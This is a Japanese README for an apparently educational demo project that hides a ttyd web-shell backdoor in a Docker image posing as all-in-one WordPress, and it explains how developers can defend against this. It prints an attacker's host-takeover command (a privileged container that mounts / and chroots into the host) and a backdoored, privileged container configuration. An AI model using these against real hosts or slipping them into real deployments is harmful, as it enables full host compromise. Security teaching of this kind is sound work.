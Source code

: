 > 🇺🇸 English version → [README.md](./README.md)
> 🇯🇵 日本語版はこちら → [README.ja.md](./README.ja.md)

# 🐳 all-in-one-wordpress（バックドアのデモ用）

このプロジェクトは、**悪意のあるコンテナイメージがどのようにしてホストを乗っ取るか**を実演する教育目的のデモです。WordPress を装った all-in-one Docker コンテナに `ttyd` シェルのバックドアを仕込み、SSH ポートフォワーディングを使った開発環境の守り方を紹介します。

---

## 📦 プロジェクト構成

```text
.
├── Dockerfile           # WordPress + ttyd + Apache リバースプロキシ
├── docker-compose.yml   # docker.sock をマウント & privileged 設定あり
├── init.sql             # WordPress 初期DBセットアップ
├── supervisord.conf     # MariaDB, Apache, ttyd を一括起動する supervisor 設定
├── README.md            # このファイル
```

---

## 🚀 クイックスタート（※ローカル検証環境で使用してください）

### 1. ビルド

```bash
docker compose build
```

### 2. 起動

```bash
docker compose up -d
```

### 3. SSH ローカルフォワードでアクセス（安全な方法）

```bash
ssh -L 8888:127.0.0.1:8899 root@your.server.ip
```

ブラウザで以下にアクセス：

```
http://localhost:8888/shell/
```

---

## 🧨 攻撃者の視点：どうやって悪用されるのか？

仮に `docker-compose.yml` に以下のように書かれていたら：

```yaml
ports:
  - "0.0.0.0:8899:8080"
```

攻撃者は次のURLを叩くだけで、Web Bash シェルが使えるようになります：

```
http://<あなたのIP>:8899/shell/
```

さらに、以下のコマンドでホストを完全に乗っ取れます：

```bash
docker run --rm -it --privileged -v /:/mnt alpine \
  chroot /mnt /bin/bash -c "echo 'You are hacked' | wall; touch /root/OWNED-$(whoami)"
```

* ホストの `/root` にファイルが作成され
* 全ユーザーのターミナルに警告が送信されます

---

## 🛡️ 開発者が取るべき対策

* 信頼できない Docker イメージを使用しない
* 不必要なポートをパブリックに公開しない
* `127.0.0.1` にバインドして SSH LocalForwarding を使う

### docker-compose.yml（安全な例）：

```yaml
services:
  wp:
    image: wp-with-backdoor
    ports:
      - "127.0.0.1:8899:8080"  # ローカル専用に制限
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    privileged: true
```

---

## 📚 関連資料

ブログ記事とセットで学習すると理解が深まります：

👉 [Container-backdoor-ssh.md](./Container-backdoor-ssh.md)

---

## ⚠️ 注意

このプロジェクトはセキュリティ教育・デモ目的に限り使用してください。実運用環境での使用は絶対に避けてください。
本プロジェクトにより発生した損害について、作者は一切の責任を負いません。

---
